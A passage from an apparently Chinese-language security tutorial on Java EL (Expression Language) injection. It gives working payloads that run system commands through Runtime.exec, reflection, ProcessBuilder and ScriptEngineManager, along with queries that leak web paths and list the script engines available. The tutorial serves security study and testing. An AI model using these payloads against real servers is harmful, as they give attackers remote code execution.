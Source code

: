 借助这些对象可以尝试获取Web路径，获取输出流等。另外还常用隐式对象中的`attribute`属性做字符拼接。

```
# 获取请求头参数
${header}

# 获取WebRoot
${applicationScope}

# 获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
```

### POC

对EL进行利用，首先测试如下命令执行的payload。用反射来获取实例，如`''.class.forName`，但是有些场景下会抛出不支持访问`.class`，那么可以选择`getClass()`进行替代。

```
# 命令执行
${Runtime.getRuntime().exec("open -a Calculator")}
${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'open -a Calculator')}
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("open -a Calculator")}
${"".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(["open","-a","Calculator"]).start()}
```

还可能因为EL规范不完整（VarArgs未在J2EE EL中实现）而抛出`java.lang.IllegalArgumentException: wrong number of arguments`，这样就无法直接传参（也就无法直接调用静态方法Method.invoke或非默认构造函数Constructor.newInstance）。那么实例化类的唯一选择是使用`java.lang.Class.newInstance()`。`javax.script.ScriptEngineManager`就是满足这个条件的类之一

```
# ScriptEngineManager基本用法
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('open -a Calculator')}
```

`ScriptEngineManager`需要根据引擎名调用对应引擎来执行命令，常用的JavaScript引擎在某些系统中不可用，需要利用如下语句查找可用引擎

```
# ScriptEngineManager查询可用引擎
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getClass().getMethod('getEngineFactories').invoke(''.getClass().forName('javax.script.ScriptEngineManager').newInstance())}
```

常用引擎及其引擎名称如下

```
BshScriptEngineFactory:      beanshell、bash、java
GroovyScriptEngineFactory:   groovy、Groovy
JexlScriptEngineFactory:     JEXL、jexl、Jexl、JEXL2、Jexl2、jexl2
PyScriptEngineFactory:       python、jython
NashornScriptEngineFactory:  nashorn、Nashorn、js、JS、JavaScript、javascript、ECMAScript、ecmascript
QuercusScriptEngineFactory:  quercus、php
RhinoScriptEngineFactory:    rhino、js、javascript、JavaScript、ECMAScript、ecmascript
```
